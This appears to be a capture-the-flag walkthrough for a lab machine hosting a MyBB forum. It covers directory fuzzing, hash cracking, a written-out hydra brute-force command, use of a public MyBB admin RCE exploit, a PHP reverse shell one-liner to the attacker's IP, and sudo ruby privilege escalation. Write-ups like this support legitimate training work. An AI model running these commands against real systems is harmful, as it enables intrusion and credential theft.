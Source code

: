 ```yaml
---
sticker: emoji//1f476
---
```


# ENUMERATION


## OPEN PORTS


![](Pasted%20image%2020241029135137.png)
Seems like we only have a website, let's fuzz it


## FUZZING

### GOBUSTER FUZZ

![](Pasted%20image%2020241029135218.png)

### SOURCE CODE AND WEBPAGE

Nothing useful, let's see the page:

![](Pasted%20image%2020241029143334.png)

Let's go to the forum:

![](Pasted%20image%2020241029143346.png)

We need to add `panel.mybb.dl` to `/etc/hosts` in order to be able to go into the website:

![](Pasted%20image%2020241029143517.png)

![](Pasted%20image%2020241029143536.png)
Nice, let's keep enumerating the machine until we find something we can exploit:

![](Pasted%20image%2020241029143732.png)
We can see we only have the admin user registered, 


![](Pasted%20image%2020241029143829.png)
Let's fuzz the `http://panel.mybb.dl` website to check if we can find anything:

![](Pasted%20image%2020241029144434.png)

We found interesting things, directory I like the most is the `/backups` directory, let's fuzz it to check if there's anything in there:

![](Pasted%20image%2020241029144701.png)

Found `/data` inside of the directory, let's take a look:

![](Pasted%20image%2020241029144821.png)

In general, SQL queries can be found, and some login attempts, but the most interesting part is the following:

![](Pasted%20image%2020241029144856.png)

User `alice` attempted to log in using a password, that seems like a hash, let's try to crack it and log into Alice account

![](Pasted%20image%2020241029145105.png)

We got `alice:tinkerbell` let's attempt to log in:

![](Pasted%20image%2020241029145142.png)
We cannot get in using those credentials, seems like they were fake, so, why don't we try some bruteforce using the `admin` username, let's capture the request with `burp` and use `hydra` to brute force our login page:


```request
POST /admin/index.php HTTP/1.1

Host: panel.mybb.dl

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 38

Origin: null

Connection: keep-alive

Cookie: mybb[lastvisit]=1730230425; mybb[lastactive]=1730230863; sid=df2321f0ff06ec973eb0f4cbfc38c6de

Upgrade-Insecure-Requests: 1

Priority: u=0, i



username=admin&password=admin&do=login
```

So, we got a post request, let's brute force:

```ad-hint

##### HYDRA COMMAND

`hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^&do=login:F=Login Failed"`

![](Pasted%20image%2020241029150240.png)



```

So, we got plenty amount of passwords, after trying every single one of them, correct credentials were: `admin`:`babygirl`, let's log in and proceed with exploitation:

![](Pasted%20image%2020241029150737.png)



# EXPLOITATION


First, we can see we are running `myBB 1.8.35` let's search for any exploit in this version:

![](Pasted%20image%2020241029150932.png)
We found this [exploit](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE), let's download it and use it:

![](Pasted%20image%2020241029151057.png)
So, we need to put this:

```ad-hint

# PYTHON COMMAND:

python3 exploit.py http://panel.mybb.dl admin babygirl

##### OUTPUT

![](Pasted%20image%2020241029151225.png)

We got RCE!
```

With the RCE from the exploit, we can get a [[CYBERSECURITY/REVERSE SHELLS/MOST COMMON REVERSE SHELLS.md|reverse shell]]:

```ad-note

# USED SHELL

php:  `php -r '$sock=fsockopen("192.168.200.136",4444);shell_exec("bash <&3 >&3 2>&3");'`

# CONNECTION RECEIVED

![](Pasted%20image%2020241029151456.png)

```

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize our shell]]:

![](Pasted%20image%2020241029151553.png)

With our new stable shell, we can begin with [[CYBERSECURITY/LINUX/LINUX PRIVILEGE ESCALATION/BASIC PRIVESC IN LINUX.md|PRIVESC]]

# PRIVILEGE ESCALATION



At home directory, we can find our previous user `alice`, let's switch users:

![](Pasted%20image%2020241029151851.png)

Nice, we were able to switch to alice, let's use `sudo -l` to get root access:


## SUDO -L


![](Pasted%20image%2020241029151944.png)
Pretty weird, let's take a look at that:

It is a ruby script, since we can execute any ruby script as root without the need of a password, we can do the following:

```ad-hint

`echo 'exec "/bin/bash"' > /home/alice/scripts/root.rb`
`chmod +x root.rb`

`sudo /home/alice/scripts/root.rb`

# OUTPUT

![](Pasted%20image%2020241029152250.png)


```

And just like that, the CTF is done!